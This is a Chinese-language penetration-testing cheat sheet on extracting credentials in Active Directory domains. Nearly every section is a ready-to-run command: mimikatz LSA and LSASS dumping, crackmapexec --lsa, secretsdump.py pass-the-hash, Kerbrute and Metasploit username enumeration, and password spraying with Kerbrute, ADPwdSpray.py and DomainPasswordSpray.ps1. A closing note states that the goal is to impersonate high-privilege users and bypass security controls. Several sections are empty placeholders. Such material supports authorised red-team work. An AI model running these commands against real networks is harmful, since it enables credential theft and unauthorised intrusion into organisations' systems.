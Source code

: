 ```yaml
---
description: 枚举用户名 + 密码喷洒 = 获取有效凭证 / 枚举出用户名
---
```


# ✔️ 枚举域内有效凭证

## 先决条件

* 已经在目标域中建立了基本的立足点
* 有足够权限利用域内的查询命令 / 工具

## Windows凭证转储

### LAS Secrets

* 从Windows注册表中获取NTLM哈希、明文密码、Kerberos 票据：

```powershell
# 使用mimikatz提取
mimikatz.exe
privilege::debug
lsadump::secrets
```

```bash
 # 使用crackmapexec提取
 crackmapexec smb 192.168.xxx.xxx -u 用户名 -p 密码 --lsa
```

```bash
# 使用Impacket工具中的secretsdump.py脚本
python3 secretsdump.py administrator@192.168.xxx.xxx -hashes 00000000000000000000000000000000:123CDVEE.....NDFE6654GDS
```

### LSASS进程

* 从LSASS进程中提取存储在内存中的NTLM哈希、明文密码、Kerberos 票据：

```powershell
# 使用mimikatz提取
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets
```

```bash
# 使用crackmapexec提取
crackmapexec smb 192.168.xxx.xxx -u 用户名 -p 密码 --lsa
```

### 绕过LSASS进程保护

* 是访问LSASS进程，并从中获取NTLM哈希、明文密码、Kerberos 票据：

```bash
# 使用mimikatz提取
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
# 从DMP文件中提取凭证
sekurlsa::minidump lsass.DMP
sekurlsa::tickets
```

### 凭证管理

* 从凭证管理中获取NTLM哈希、明文密码、Kerberos 票据：

```bash
# 使用mimikatz获取
mimikatz.exe
privilege::debug 
sekurlsa::logonpasswords
# 当目标启用了wdigest身份验证或存储了明文密码时 
sekurlsa::wdigest
sekurlsa::tickets
```

## 获取Hash身份凭证

### 通过SAM数据库获取本地用户Hash凭证

*

```
// Some code
```

### 通过域控的ntds.dit文件

#### 本地提取

```
// Some code
```

#### 远程提取

```
// Some code
```

## 用户名枚举工具&使用

### Kerbrute

* `userenum`：指定操作为用户名枚举
* `usernames.txt`：包含待枚举用户名的文件（可以是字典，也可以是针对目标域收集到的用户名列表）

```bash
kerbrute userenum -d 目标域名 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 和Kerbrute类似（该工具用python写的）
* 用的是：**EnumADUser.py**

```bash
# TCP模式
python EnumADUser.py 域控IP 目标域名 username.txt tcp
# UDP模式
python EnumADUser.py 域控IP 目标域名 username.txt udp
```

### MSF

* 模块：**auxiliary/gather/kerberos\_enumusers**

```bash
use auxiliary/gather/kerberos_enumusers
set domain 目标域名
set RHOSTS 域控IP
set user_file /tem/username.txt
run
```

## 密码喷洒工具&使用

### Kerbrute

* `passwordspray`：指定操作为密码喷洒

```bash
kerbrute passwordspray -d 目标域名 -p 已知的密码 usernames.txt -dc-ip 域控IP
```

### pyKerbrute

* 用的是：**ADPwdSpray.py**

```bash
# 针对明文密码进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt clearpassword 已知明文密码 udp
# 针对密码Hash进行喷洒（TCP和UDP模式）
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 tcp
python ADPwdSpray.py 域控IP 目标域名 username.txt ntlmhash 已获取的密码哈希 udp
```

### DomainPasswordSpray.ps1

* 该工具为powershell脚本
* 需要在目标域内机器上执行
* 原理：利用LDAP从域中导出列表->去除被锁定的用户->进行密码喷洒

```powershell
Import-Module.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password 已知的明文密码
```

{% hint style="info" %}
在域渗透的过程中，枚举域内有效凭证的作用是为了收集更多有利于权限提升、横向移动等操作所需要的必要身份验证信息。本质上是为了冒充合法的高权限用户，绕过目标的安全限制，达到访问目标受限资源和进一步扩大攻击面。
{% endhint %}
